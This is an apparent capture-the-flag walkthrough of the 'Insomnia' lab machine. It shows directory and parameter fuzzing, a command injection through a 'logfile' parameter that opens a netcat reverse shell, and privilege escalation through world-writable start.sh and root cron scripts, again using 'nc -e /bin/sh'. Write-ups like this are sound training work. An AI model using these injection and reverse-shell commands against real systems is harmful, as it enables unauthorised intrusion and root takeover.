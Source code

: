 
# Insomnia - Walkthrough by Alienum
## Directory Scan
```console
dirb http://10.0.2.114:8080/ -X .php,.txt                                                             

+ http://10.0.2.114:8080/administration.php (CODE:200|SIZE:65)                                                   
+ http://10.0.2.114:8080/chat.txt (CODE:200|SIZE:1)                                                              
+ http://10.0.2.114:8080/index.php (CODE:200|SIZE:2899)                                                          
+ http://10.0.2.114:8080/process.php (CODE:200|SIZE:2)  
```

## Find GET parameter
```console
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://10.0.2.114:8080/administration.php?FUZZ=test'                                                               
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000000485:   200        2 L      12 W       69 Ch       "logfile"    
```
## Reverse shell
```console
http://10.0.2.114:8080/administration.php?logfile=chat.txt;nc -e /bin/sh 10.0.2.15 4444
```
### My machine
```console
nc -lvp 4444
www-data@insomnia:~$ cd /home/julia
www-data@insomnia:~$ cat user.txt
```
## SLOW WAY TO ROOT (www-data -> julia -> root)
```console
www-data@insomnia:~/julia$ sudo -l
(julia) NOPASSWD: /bin/bash /var/www/html/start.sh

www-data@insomnia:~$ cd /var/www/html

www-data@insomnia:/var/www/html$ ls -la | grep start.sh
-rwxrwxrwx 1 root     root       20 Dec 21 04:18 start.sh

www-data@insomnia:/var/www/html$ cat start.sh
cat start.sh
php -S 0.0.0.0:8080
```
## Edit start.sh
```console
www-data@insomnia:/var/www/html$ cat start.sh
cat start.sh
php -S 0.0.0.0:8080

www-data@insomnia:/var/www/html$ echo "/bin/bash" > start.sh

www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh

julia@insomnia:/var/www/html$ id
id
uid=1000(julia) gid=1000(julia) groups=1000(julia)
```

## cat /etc/crontab
```console
julia@insomnia:~$ cat /etc/crontab
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/bash /var/cron/check.sh

julia@insomnia:~$ cd /var/cron
cd /var/cron
julia@insomnia:/var/cron$ ls -la | grep check.sh
ls -la | grep check.sh
-rwxrwxrwx  1 root root  153 Dec 21 04:17 check.sh
```
## Target machine, check.sh is writable, edit check.sh
```console
julia@insomnia:/var/cron$ echo "nc -e /bin/sh 10.0.2.15 5555" >> check.sh
```
## My machine, wait a little bit
```console
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 5555
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.114 [10.0.2.114] 40348
id
uid=0(root) gid=0(root) groups=0(root)
```

## FAST WAY TO ROOT (www-data -> root)
the www-data also can write the /var/cron/check.sh
so we are able to priv esc from www-data to root with the same way as julia
